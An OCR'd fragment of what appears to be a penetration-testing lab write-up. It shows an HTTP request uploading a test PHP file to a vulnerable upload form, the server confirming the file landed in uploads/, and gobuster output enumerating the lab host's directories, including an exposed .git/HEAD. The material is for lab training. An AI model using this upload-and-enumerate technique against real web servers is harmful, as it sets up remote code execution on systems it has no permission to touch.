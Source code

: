 ```http
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

-----------------------------220412119661351292736528440
Content-Disposition: form-data; name="fileToUpload"; filename="test.php" 📌
Content-Type: application/x-php 📌

<?php echo "test" ?> 📌

-----------------------------220412119661351292736528440--
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Thu, 28 Nov 2024 13:28:33 GMT
Server: Apache/2.4.7 (Ubuntu)
Vary: Accept-Encoding
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 4061


<!DOCTYPE html>
<html lang="en">

[...]

	<div class="media-body">
	  <a href='uploads/test.php'>File Uploaded Succesfully</a> 📌                      </div>

[...]
```

`gobuster dir --url https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/ --wordlist /usr/share/wordlists/dirb/common.txt`:
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://m5i7l4fibda6qpa3wlvb3bth0.eu-central-7.attackdefensecloudlabs.com/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 336]
/.git/HEAD            (Status: 200) [Size: 23]
/.htaccess            (Status: 403) [Size: 341]
/.htpasswd            (Status: 403) [Size: 341]
/cgi-bin/             (Status: 403) [Size: 340]
/index.php            (Status: 200) [Size: 3399]
/LICENSE              (Status: 200) [Size: 10273]
/logo                 (Status: 200) [Size: 14598]
```